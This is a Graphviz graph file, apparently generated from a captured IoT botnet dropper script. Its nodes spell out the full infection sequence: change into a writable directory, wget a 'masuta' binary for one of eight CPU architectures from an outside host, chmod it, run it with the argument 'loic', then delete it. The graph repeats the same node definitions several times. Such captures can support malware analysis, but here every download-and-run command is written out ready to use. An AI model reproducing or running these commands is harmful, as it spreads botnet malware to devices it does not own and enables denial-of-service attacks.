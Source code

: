 digraph {
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 10 [label="||,"];
10 [label="wget http://rozew.pw/bins/masuta.mips -O a "];
10 -> 12 [label=";,"];
12 [label="chmod +x a "];
12 -> 14 [label=";,"];
14 [label="./a loic "];
14 -> 16 [label=";,"];
16 [label="rm -rf a "];
16 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 28 [label="||,"];
28 [label="wget http://rozew.pw/bins/masuta.x86 -O b "];
28 -> 30 [label=";,"];
30 [label="chmod +x b "];
30 -> 32 [label=";,"];
32 [label="./b loic "];
32 -> 34 [label=";,"];
34 [label="rm -rf b "];
34 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 46 [label="||,"];
46 [label="wget http://rozew.pw/bins/masuta.ppc -O c "];
46 -> 48 [label=";,"];
48 [label="chmod +x c "];
48 -> 50 [label=";,"];
50 [label="./c loic "];
50 -> 52 [label=";,"];
52 [label="rm -rf c "];
52 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 64 [label="||,"];
64 [label="wget http://rozew.pw/bins/masuta.sh4 -O d "];
64 -> 66 [label=";,"];
66 [label="chmod +x d "];
66 -> 68 [label=";,"];
68 [label="./d loic "];
68 -> 70 [label=";,"];
70 [label="rm -rf d "];
70 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 82 [label="||,"];
82 [label="wget http://rozew.pw/bins/masuta.arm -O e "];
82 -> 84 [label=";,"];
84 [label="chmod +x e "];
84 -> 86 [label=";,"];
86 [label="./e loic "];
86 -> 88 [label=";,"];
88 [label="rm -rf e "];
88 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 100 [label="||,"];
100 [label="wget http://rozew.pw/bins/masuta.arm6 -O f "];
100 -> 102 [label=";,"];
102 [label="chmod +x f "];
102 -> 104 [label=";,"];
104 [label="./f loic "];
104 -> 106 [label=";,"];
106 [label="rm -rf f "];
106 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 118 [label="||,"];
118 [label="wget http://rozew.pw/bins/masuta.arm7 -O g "];
118 -> 120 [label=";,"];
120 [label="chmod +x g "];
120 -> 122 [label=";,"];
122 [label="./g loic "];
122 -> 124 [label=";,"];
124 [label="rm -rf g "];
124 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 136 [label="||,"];
136 [label="wget http://rozew.pw/bins/masuta.mpsl -O h "];
136 -> 138 [label=";,"];
138 [label="chmod +x h "];
138 -> 140 [label=";,"];
140 [label="./h loic "];
140 -> 142 [label=";,"];
142 [label="rm -rf h "];
142 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 154 [label="||,"];
154 [label="wget http://rozew.pw/bins/masuta.sh4 -O i "];
154 -> 156 [label=";,"];
156 [label="chmod +x i "];
156 -> 158 [label=";,"];
158 [label="./i loic "];
158 -> 159 [label=";,"];
}
